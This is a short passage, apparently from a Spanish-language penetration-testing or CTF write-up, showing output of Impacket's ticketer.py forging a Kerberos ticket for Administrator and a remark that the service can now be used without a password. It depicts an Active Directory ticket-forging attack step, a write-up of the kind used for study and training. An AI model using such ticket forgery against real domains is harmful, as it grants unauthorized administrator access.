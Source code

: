 ```
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
/usr/share/doc/python3-impacket/examples/ticketer.py:843: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  encRepPart['last-req'][0]['lr-value'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in Administrator.ccache
```

Y ya con esto podremos utilizar el servicio sin necesidad de poner ninguna contraseña como hemos visto anteriormente.
